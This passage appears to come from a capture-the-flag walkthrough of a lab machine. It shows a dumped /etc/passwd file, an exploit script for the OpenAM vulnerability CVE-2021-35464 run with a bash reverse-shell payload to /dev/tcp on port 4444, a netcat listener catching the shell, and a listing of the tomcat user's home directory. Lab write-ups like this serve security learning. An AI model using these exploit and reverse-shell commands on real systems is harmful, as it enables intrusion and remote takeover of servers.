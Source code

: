 ```bash
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:1001:1001::/opt/tomcat:/bin/false
```
Next,how we get the target shell?,so we can using this command `python3 50131.py -c "/usr/bin/bash -c '/usr/bin/bash -i >& /dev/tcp/10.10.14.49/4444 0>&1'"`, and prepare netcat listener `nc -lvnp 4444` on our kali linux machine.
```bash
$ python3 50131.py -c "/usr/bin/bash -c '/usr/bin/bash -i >& /dev/tcp/10.10.14.49/4444 0>&1'" http://manager.htb:8080/openam
[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "/usr/bin/bash -c '/usr/bin/bash -i >& /dev/tcp/10.10.14.49/4444 0>&1'" now:
```
netcat listener `nc -lvnp 4444`
```bash
$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.171.179.
Ncat: Connection from 10.129.171.179:46620.
bash: cannot set terminal process group (831): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@manager:/$
```
Next we need enumerate `tomcat` directory
```bash
tomcat@manager:~$ ls -la
ls -la
total 68
drwxr-xr-x 13 tomcat tomcat 4096 Jul  2 18:01 .
drwxr-xr-x  3 root   root   4096 Jul  1 12:11 ..
lrwxrwxrwx  1 root   root      9 Jul  2 11:26 .bash_history -> /dev/null
-rw-r--r--  1 tomcat tomcat  220 Feb 25  2020 .bash_logout
-rw-r--r--  1 tomcat tomcat 3771 Feb 25  2020 .bashrc
drwxr-x---  2 tomcat tomcat 4096 Jul  2 17:19 .openamcfg
-rw-r--r--  1 tomcat tomcat  807 Feb 25  2020 .profile
drwxr-xr-x  4 root   root   4096 Jul  2 17:13 accessmanager
drwxr-xr-x  2 tomcat tomcat 4096 Jun 10 11:22 bin
drwxr-xr-x  3 tomcat tomcat 4096 Jul  2 17:40 conf
drwxr-x---  2 tomcat tomcat 4096 Jul  1 14:33 config
drwxr-xr-x  2 tomcat tomcat 4096 Jun 10 11:22 lib
drwxr-xr-x  2 tomcat tomcat 4096 Jul 23 12:02 logs
drwxr-x---  7 tomcat tomcat 4096 Jul  2 17:19 openam
drwxr-xr-x  2 tomcat tomcat 4096 Jul 23 12:02 temp
-r--------  1 tomcat tomcat   52 Jul  2 18:01 user.txt
```